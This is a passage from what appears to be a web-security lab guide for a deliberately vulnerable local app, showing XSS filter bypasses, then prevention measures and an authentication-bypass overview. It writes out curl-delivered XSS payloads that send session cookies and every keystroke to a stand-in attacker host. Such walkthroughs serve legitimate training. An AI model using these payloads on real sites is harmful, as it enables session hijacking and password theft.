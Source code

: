 **Alternative payloads:**
```bash
curl "http://localhost:5000/api/vuln/xss?search=<svg onload=alert(1)>"
curl "http://localhost:5000/api/vuln/xss?search=javascript:alert(1)"
curl "http://localhost:5000/api/vuln/xss?search=<iframe src=javascript:alert(1)>"
```

**Explanation:** Use different HTML tags and event handlers to bypass script tag filters.

#### Step 4: Extract Cookies
**Objective:** Steal session cookies using JavaScript

```bash
curl "http://localhost:5000/api/vuln/xss?search=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>"
```

**Alternative:**
```bash
curl "http://localhost:5000/api/vuln/xss?search=<img src=x onerror=fetch('http://attacker.com/steal?cookie='+document.cookie)>"
```

**Explanation:** Redirect user to attacker-controlled server with their session cookies for account takeover.

#### Step 5: Keylogging Attack
**Objective:** Capture user keystrokes

```bash
curl "http://localhost:5000/api/vuln/xss?search=<script>document.onkeypress=function(e){fetch('http://attacker.com/log?key='+String.fromCharCode(e.which))}</script>"
```

**Explanation:** Log every keystroke to an attacker server to capture passwords and sensitive information.

### Prevention Measures
1. Implement proper output encoding/escaping
2. Use Content Security Policy (CSP) headers
3. Validate and sanitize all user inputs
4. Use HTTPOnly and Secure flags for cookies
5. Implement input filtering with whitelisting approach

---

## 3. Authentication Bypass

### Vulnerability Description
Authentication bypass vulnerabilities allow attackers to gain unauthorized access to restricted areas without providing valid credentials through flaws in authentication logic.

### Impact
- Unauthorized access to restricted areas
- Privilege escalation
- Account takeover
- Data breaches
- Administrative access
